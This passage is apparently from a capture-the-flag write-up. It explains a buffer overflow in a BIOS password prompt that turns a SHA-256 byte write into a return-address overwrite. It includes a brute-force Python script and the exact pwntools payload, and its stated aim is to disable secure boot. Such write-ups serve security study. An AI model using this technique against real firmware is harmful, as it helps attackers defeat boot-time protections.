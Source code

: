 As shown clearly above, the return address is stored in address `0x7ec18b8`.

**Specific Exploitation**

Now the particular steps are clear. Firstly, we need to use overflow to rewrite the variable `dst` to `0x7ec18b8 - 32 + 1`, so that the last byte of the hash is the least significate byte of return address. Then we need to find a string such that the last byte of its `sha256` hash is `\x49`. Note that, the actual payload that we are going to send is `'A' * 0x88 + p32(0x7ec18b8 - 32 + 1) + '\r'`, where the `A` prefix should be modified to make last byte of the hash `\x49`. However, when the input is used to calculate hash value, actual bytes used is `'A' * (0x80) + p64(0) + p32(0x7ec18b8 - 32 + 1)`. This is because variable `v8` just after the password buffer will be assigned to return value of `ReadKeyStroke`, which is zero at this point.

Therefore, here is the script to obtain the payload prefix:

```python
import binascii
from pwn import *

for i in xrange(0x10000):
	pld = hex(i)[2:]
	dk = hashlib.sha256(pld + 'A' * (0x80-4) + p64(0) + p32(0x7ec18b8 - 32 + 1)).hexdigest()
	dk = binascii.unhexlify(dk)
	if ord(dk[31]) == 0x49:
		print pld
```

There are many outputs, and we just chose `'1010'` as the prefix.

Therefore, finally the payload to be sent as password is this:

```python
sh.send('1010' + 'A' * 0x84 + p32(0x7ec18b8 - 32 + 1) + '\r')
```

### Tackle with BIOS

Now we finally got into BIOS interface. The idea is to disable secure boot here and reboot the OS. However, if we run the script locally, the BIOS interface we get is this:

![BIOS1](files/BIOS1.png)
